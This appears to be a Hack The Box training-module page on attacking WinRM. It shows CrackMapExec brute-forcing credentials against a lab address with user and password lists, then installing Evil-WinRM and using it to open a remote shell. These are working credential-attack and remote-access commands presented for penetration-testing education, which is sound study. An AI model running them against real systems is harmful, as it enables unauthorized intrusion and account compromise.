 **CrackMapExec Usage**

The general format for using CrackMapExec is as follows:

Network Services

```shell-session
AIceBear@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Network Services

```shell-session
AIceBear@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

The appearance of `(Pwn3d!)` is the sign that we can most likely execute system commands if we log in with the brute-forced user. Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

**Evil-WinRM**

**Installing Evil-WinRM**

Network Services

```shell-session
AIceBear@htb[/htb]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)
```

**Evil-WinRM Usage**

Network Services

```shell-session
AIceBear@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>
```

Network Services

